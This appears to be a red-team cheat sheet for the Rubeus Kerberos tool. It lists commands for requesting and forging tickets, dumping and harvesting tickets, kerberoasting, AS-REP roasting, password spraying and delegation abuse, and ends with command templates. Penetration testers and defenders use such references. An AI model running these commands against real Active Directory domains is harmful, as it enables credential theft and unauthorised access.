 ### Author: https://github.com/GhostPack/Rubeus

### Commands:

#### asktgt = Request a ticket-granting-ticket (TGT) from a hash/key or password

#### asktgs = Request a service ticket from a passed TGT

#### renew = Renew or autorenew a TGT or service ticket

#### spray / brute = Kerberos-based brute-force, password spray attacks

#### preauthscan = Scan for accounts that don't require kerberos authentication (ASREPRoasting)

### Flags:

#### /user:USER

#### /HASH_ALGORITHM:HASH

#### /getcredentials

#### /certificate:CERTIFICATE

#### /password:PASSWORD

#### /dc:DOMAIN_CONTROLLER

#### /ptt (Pass-the-Ticket)

#### /domain:DOMAIN

#### /service:SERVICE

#### /ticket:BASE64_TICKET

#### /impersonateuser:USER

### TICKET FORGERY

#### golden = TGT

#### silver = Service ticket / TGS

#### diamond = Diamond ticket

### TICKET MANAGEMENT

#### ptt = Apply a ticket to the current (or specified) logon session

#### purge = Purge the session of Kerberos tickets

#### describe = Describe a ticket base64 blob or .kirbi file

### TICKET EXTRACTION AND HARVESTING

#### triage = LUID,username,service,service target,ticket expiration

#### klist = Detailed logon session and ticket info

#### dump = Detailed logon session and ticket data

#### tgtdeleg = Retrieve usable TGT for non-elevated user

#### monitor = Monitor logon events and dump new tickets

#### harvest = Same as monitor but with auto-renewal functionality

### ROASTING

#### kerberoast = Perform kerberoasting against all users (or specified)

#### asreproast = Perform AS-REP roasting against all users (or specified)

#### s4u = Perform S4U2self and S4U2proxy actions (Constrained delegation abuse)

### MISCELLANEOUS

#### createnetonly = Create a process of logon type 9

#### changepw = Aorato kerberos password reset

#### hash = Hash a plaintext password to kerberos encryption keys

#### tgssub = Substitute in alternative service names into a service ticket

#### logonsession = Display logon session info

#### currentluid = Display current user's LUID

### TECHNIQUES

#### 1) Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] 

#### 2) Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]

#### 3) Rubeus.exe klist [/luid:LOGINID]

#### 4) Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]


